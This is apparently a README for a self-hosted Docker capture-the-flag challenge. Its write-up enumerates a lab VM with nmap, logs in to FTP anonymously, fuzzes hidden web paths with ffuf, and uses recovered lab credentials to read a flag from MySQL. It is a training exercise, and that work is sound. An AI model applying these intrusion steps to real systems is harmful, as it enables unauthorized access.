

# CTF Challenge by Veiron Vaya Yarief 

# Table of Contents
- [CTF Challenge by Veiron Vaya Yarief](#ctf-challenge-by-veiron-vaya-yarief)
- [Table of Contents](#table-of-contents)
  - [1. How to try](#1-how-to-try)
  - [2. About Program](#2-about-program)
    - [2.1. Configuration](#21-configuration)
    - [2.1.1. Ftp](#211-ftp)
      - [Dockerfile](#dockerfile)
      - [vsftpd.conf](#vsftpdconf)
    - [2.1.2. Http](#212-http)
      - [Dockerfile](#dockerfile-1)
    - [2.1.3. MySql](#213-mysql)
      - [init.sql](#initsql)
    - [2.2. Write-Up/Solution](#22-write-upsolution)
    - [2.3. Privilege Escalation](#23-privilege-escalation)

## 1. How to try
- Install VirtualBox and Setup kali-linux: https://linuxsimply.com/linux-basics/os-installation/virtual-machine/kali-linux-on-virtualbox/

- If the machine dont have docker and docker compose install it first https://www.kali.org/docs/containers/installing-docker-on-kali/
- In ur desire directory run command `git clone https://github.com/VeironVaya/Vei_CTF.git`
- After that run command `cd Vei_CTF`
  
- Run command `docker compose build`
  
- After it successfully built, run command `docker compose up`

- Check if the containers running using command `docker ps`

- 💻🔓 Happy HACKINGGGGGGGGG!!! 💻⚡
- 👉 Try to enumerate what is runninggg... 🚀👀

## 2. About Program

### 2.1. Configuration

### 2.1.1. Ftp
#### Dockerfile
#### vsftpd.conf

### 2.1.2. Http
#### Dockerfile

### 2.1.3. MySql
#### init.sql

### 2.2. Write-Up/Solution
- Disclaimer: change all the target ip to ur vm target ip
- Check vm ip: run command `ip a`
- General Enumeration: run command `nmap -p- 192.168.1.11` or ur vm ip

- As we can see there are three services and we will try to get information on each one
- Try anonymous login for ftp and find interesting files by following this steps
- Run command `ftp 192.168.1.11` 
- Enter **anonymous**
- Run command `ls` to see what files inside
- Run command `get user.txt`
- Run command `bye` to exit the ftp
- Run command `cat user.txt` here we get some user password that maybe usefull

- Try finding hidden directory in http

- Run command `echo -e "docker-compose.yaml\n.ftp\n.http\n.mysql\n.prefix.txt\n.readme.md\n.user.txt\n.hidden" > prefix.txt` to make all possible list of directory to bruteforced finding hidden directory
- Run command `ffuf -u http://192.168.1.11/FUZZ -w prefix.txt -mc 200,301,302,403 -t 40`

- As we can see there is a hidden directory `/.hidden`. Now we try enumerate what file could be in this directory
- Run command `echo -e "flag.txt\nflag\nsecret.txt\npass.txt\npassword.txt\nindex.html\nbackup.zip\nreadme.md\n.htaccess\n.htpasswd" > ctf.txt` to make all possible list of files 
- Run command `ffuf -u http://192.168.1.11/.hidden/FUZZ -w ctf.txt -mc 200,301,302,403`

- As we can see there is a file `pass.txt`
- With this information we can check the website by going to `http://192.168.1.11/.hidden/pass.txt`

- Now with these 2 done we can try mySql service
- Run command `mysql -h 192.168.1.11 -P 3306 -u dausmini -p --skip-ssl`, we get user from the ftp steps
- Enter the `passnyadausmini` in password
- Run command `SHOW DATABASES;` to show what databases are there
- Run command `USE ctfdb;` to use the database that seems suspicious
- Run command `SHOW TABLES;` to show what data table are in the database
- Run command `SELECT * FROM flag;` to get data inside the flag table

- And we get our flag
- Below is bonus documentation on simulation 2 VM

### 2.3. Privilege Escalation

